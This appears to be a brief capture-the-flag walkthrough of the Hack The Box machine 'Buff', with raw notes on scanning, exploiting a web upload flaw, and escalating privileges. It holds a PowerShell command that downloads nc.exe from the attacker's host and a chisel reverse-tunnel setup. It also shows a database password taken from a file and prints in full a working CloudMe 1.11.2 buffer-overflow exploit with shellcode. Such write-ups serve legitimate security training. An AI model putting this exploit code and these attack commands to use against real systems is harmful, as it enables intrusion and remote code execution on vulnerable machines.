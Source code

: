 
# Nmap 7.91 scan initiated Fri Feb 26 11:43:18 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 26 11:44:07 2021 -- 1 IP address (1 host up) scanned in 49.05 seconds



http://10.10.10.198:8080/


http://10.10.10.198:8080/upload.php
 Notice: Undefined index: id in C:\xampp\htdocs\gym\upload.php on line 4



http://10.10.10.198:8080/up.php

Notice: Undefined index: name in C:\xampp\htdocs\gym\up.php on line 2

Notice: Undefined index: ext in C:\xampp\htdocs\gym\up.php on line 3



https://www.exploit-db.com/exploits/48506
Projectworlds.in



python 48506.py http://10.10.10.198:8080/



![](2021-02-26-13-30-30.png)


C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.3/nc.exe', 'nc.exe')

C:\xampp\htdocs\gym>type New*
type New*

New Text Document.txt


$mysql_host = "mysql16.000webhost.com";
$mysql_database = "a8743500_secure";
$mysql_user = "a8743500_secure";
$mysql_password = "ipad12345";



c:\Users>tree /f .
tree /f .
Folder PATH listing
Volume serial number is A22D-49F7
C:\USERS
Administrator
Public
   Documents
   Downloads
   Music
   Pictures
   Videos
shaun
    3D Objects
    Contacts
    Desktop
           user.txt
           
    Documents
           Tasks.bat
           
    Downloads
           CloudMe_1112.exe
           
    Favorites
          Bing.url
          
       Links
    Links
           Desktop.lnk
           Downloads.lnk
           
    Music
    OneDrive
    Pictures
       Camera Roll
       Saved Pictures
    Saved Games
    Searches
           winrt--{S-1-5-21-2277156429-3381729605-2640630771-1001}-.searchconnector-ms
           
    Videos



![](2021-02-26-13-41-24.png)


tasklist 

pid
CloudMe.exe                   4372


netstat -aon | findstr 4372


![](2021-02-26-14-06-54.png)

sudo /opt/chisel/chisel_1.7.3_linux_amd64 server --port 9002 --reverse
chisel.exe client 10.10.14.3:9002 R:8888:127.0.0.1:8888

```py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload = ""
payload += b"\xda\xce\xbf\xb3\x49\x24\xf3\xd9\x74\x24\xf4\x58\x33"
payload += b"\xc9\xb1\x52\x31\x78\x17\x03\x78\x17\x83\x73\x4d\xc6"
payload += b"\x06\x8f\xa6\x84\xe9\x6f\x37\xe9\x60\x8a\x06\x29\x16"
payload += b"\xdf\x39\x99\x5c\x8d\xb5\x52\x30\x25\x4d\x16\x9d\x4a"
payload += b"\xe6\x9d\xfb\x65\xf7\x8e\x38\xe4\x7b\xcd\x6c\xc6\x42"
payload += b"\x1e\x61\x07\x82\x43\x88\x55\x5b\x0f\x3f\x49\xe8\x45"
payload += b"\xfc\xe2\xa2\x48\x84\x17\x72\x6a\xa5\x86\x08\x35\x65"
payload += b"\x29\xdc\x4d\x2c\x31\x01\x6b\xe6\xca\xf1\x07\xf9\x1a"
payload += b"\xc8\xe8\x56\x63\xe4\x1a\xa6\xa4\xc3\xc4\xdd\xdc\x37"
payload += b"\x78\xe6\x1b\x45\xa6\x63\xbf\xed\x2d\xd3\x1b\x0f\xe1"
payload += b"\x82\xe8\x03\x4e\xc0\xb6\x07\x51\x05\xcd\x3c\xda\xa8"
payload += b"\x01\xb5\x98\x8e\x85\x9d\x7b\xae\x9c\x7b\x2d\xcf\xfe"
payload += b"\x23\x92\x75\x75\xc9\xc7\x07\xd4\x86\x24\x2a\xe6\x56"
payload += b"\x23\x3d\x95\x64\xec\x95\x31\xc5\x65\x30\xc6\x2a\x5c"
payload += b"\x84\x58\xd5\x5f\xf5\x71\x12\x0b\xa5\xe9\xb3\x34\x2e"
payload += b"\xe9\x3c\xe1\xe1\xb9\x92\x5a\x42\x69\x53\x0b\x2a\x63"
payload += b"\x5c\x74\x4a\x8c\xb6\x1d\xe1\x77\x51\x28\xfc\x79\xa2"
payload += b"\x44\x02\x85\xb5\xc8\x8b\x63\xdf\xe0\xdd\x3c\x48\x98"
payload += b"\x47\xb6\xe9\x65\x52\xb3\x2a\xed\x51\x44\xe4\x06\x1f"
payload += b"\x56\x91\xe6\x6a\x04\x34\xf8\x40\x20\xda\x6b\x0f\xb0"
payload += b"\x95\x97\x98\xe7\xf2\x66\xd1\x6d\xef\xd1\x4b\x93\xf2"
payload += b"\x84\xb4\x17\x29\x75\x3a\x96\xbc\xc1\x18\x88\x78\xc9"
payload += b"\x24\xfc\xd4\x9c\xf2\xaa\x92\x76\xb5\x04\x4d\x24\x1f"
payload += b"\xc0\x08\x06\xa0\x96\x14\x43\x56\x76\xa4\x3a\x2f\x89"
payload += b"\x09\xab\xa7\xf2\x77\x4b\x47\x29\x3c\x7b\x02\x73\x15"
payload += b"\x14\xcb\xe6\x27\x79\xec\xdd\x64\x84\x6f\xd7\x14\x73"
payload += b"\x6f\x92\x11\x3f\x37\x4f\x68\x50\xd2\x6f\xdf\x51\xf7"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```



/usr/bin/python2 /home/kali/htb/boxes/buff/10.10.10.198/48389.py

![](2021-02-26-14-08-08.png)

